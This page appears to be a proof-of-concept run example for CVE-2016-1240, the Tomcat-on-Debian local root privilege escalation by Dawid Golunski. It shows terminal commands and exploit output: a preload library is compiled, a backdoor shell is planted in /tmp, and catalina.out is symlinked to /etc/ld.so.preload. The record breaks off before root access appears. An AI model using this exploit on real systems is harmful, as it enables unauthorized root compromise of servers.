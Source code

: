 #### poc运行示例：

```
tomcat7@ubuntu:/tmp$ id
uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

tomcat7@ubuntu:/tmp$ lsb_release -a

No LSB modules are available.

Distributor ID:	Ubuntu

Description:	Ubuntu 16.04 LTS

Release:	16.04

Codename:	xenial

tomcat7@ubuntu:/tmp$ dpkg -l | grep tomcat

ii  libtomcat7-java              7.0.68-1ubuntu0.1               all          Servlet and JSP engine – core libraries

ii  tomcat7                      7.0.68-1ubuntu0.1               all          Servlet and JSP engine

ii  tomcat7-common               7.0.68-1ubuntu0.1               all          Servlet and JSP engine – common files

tomcat7@ubuntu:/tmp$ ./tomcat-rootprivesc-deb.sh /var/log/tomcat7/catalina.out

Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit

CVE-2016-1240

Discovered and coded by:

Dawid Golunski

[http://legalhackers.com](http://legalhackers.com)

[+] Starting the exploit in [active] mode with the following privileges:

uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

[+] Target Tomcat log file set to /var/log/tomcat7/catalina.out

[+] Compiling the privesc shared library (/tmp/privesclib.c)

[+] Backdoor/low-priv shell installed at:

-rwxr-xr-x 1 tomcat7 tomcat7 1037464 Sep 30 22:27 /tmp/tomcatrootsh

[+] Symlink created at:

lrwxrwxrwx 1 tomcat7 tomcat7 18 Sep 30 22:27 /var/log/tomcat7/catalina.out -> /etc/ld.so.preload

[+] Waiting for Tomcat to re-open the logs/Tomcat service restart…

You could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ![:wink:](img/72b158ac013b9bc9875813ca4ffe6fc1.png ":wink:")

[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges:

```